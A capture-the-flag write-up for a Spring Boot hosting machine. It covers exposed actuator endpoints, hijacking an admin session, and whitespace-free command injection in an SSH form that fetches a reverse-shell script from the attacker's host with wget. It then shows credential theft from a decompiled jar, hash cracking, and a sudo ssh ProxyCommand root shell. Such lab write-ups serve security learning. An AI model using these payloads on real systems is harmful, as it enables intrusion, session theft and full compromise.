

# PORT SCAN
* **22** [ssh]
* **80** [http]

 

# ENUMERATION

The box is acting as a hosting service with different pricing

At `/admin` you can check a login page (`/login`)

While I was running some bruteforce (login page and subdomain) I tried some fuzz on the webapp and found this strange error message

This is a **<u>whitelabel error message</u>** which usually is costumized by the website author and is the standard label for **<u>[**Spring Framework**](https://spring.io/projects/spring-framework)</u>**

Looking at [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators) we can find some usefull endpoint and `/actuator/env` exist on the webapp

An **actuator** is a feature which help developers to monito and manage the webapp

The specific actuator found allow us to **view the environment configuration information for the application.yaml configuration** ([source](https://www.springcloud.io/post/2022-02/spring-boot-actuator-security-issues/#gsc.tab=0))

With more enumaration I was abblo to discovere the existence of `/actuator/mappings` and this one show all MVC cintroller mappings (module of the Spring framework dealing with the Model-View-Controller)

Thanks to this we can discover more actuator lik `/actuator/sessions`

Cool! The strings on the left are the `sessionID` so I tried to acces `/admin` using the **kenderson** profile. We got access at he **Admin Dashboard**

 

# FOOTHOLD & USER FLAG

The below part of the dashboard allow us to connect on a ssh host (if the key received upon registration is included in `authorised_keys`), when we set hostname and username we send a POST request at `/executessh`

I tried some OS command injection on the 2 parameters (hostname and username) and with the value `";whoami#` I got this interesting error

Funny thing happen when I used `;whoami` as username parameter

With this parameter the bash is executing `whoami@10.10.14.181` so the bash is doing something `bash -c "ssh [username]@[hostname]"`

With some fuzzing only the standard error output is redirect to the `?error` parameter, to prove this I used `;id;` as username parameter

There is no output of the `id` command but the ssh usage and command not found appear, this means that `id` has been execued on the server side.

Small problem : the username does not accept whitespace...cool stuff!

There is a special variable in bash called [IFS](https://www.baeldung.com/linux/ifs-shell-variable) which define the character used as separator by the shell, since we have a way to inject a single command (whitout space) we can inject using this parameter as username `;IFS=_;command=wget_http://10.10.14.181/rool;$command;` and my test was a success!

Now we can easily inject our reverse shell using this method, cool stuff! 

To get the shell I just used the above injection for get a reverse shell script on `/tmp` directory, setting the right permissions (`chmod 777`) and run the script

As soon we are inside the system we are in the path `/app` with `cloudhosting-0.0.1.jar` file, running that is the spring boot to start the webapp

Try to run a few times but same error occure, port 8080 is busy and the process is stopped. Enumeration was not successfull nothing interesting else where so I decided to upload locally the jar file and try to discover something

Using `jd-gui` I wa able to decompile the jar file and with a quick analysis I found the **postgres credentials**

Just access the database on the table `users` and I found the hash of **josh** easily cracked with `johntheripper`

 

# ROOT FLAG
After getting the user flag I moved on with `sudo -l`, pretty simple now GTFO bins allow us a cool way to spawn an interactive shell with ssh `sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x`.

Pretty simple root!

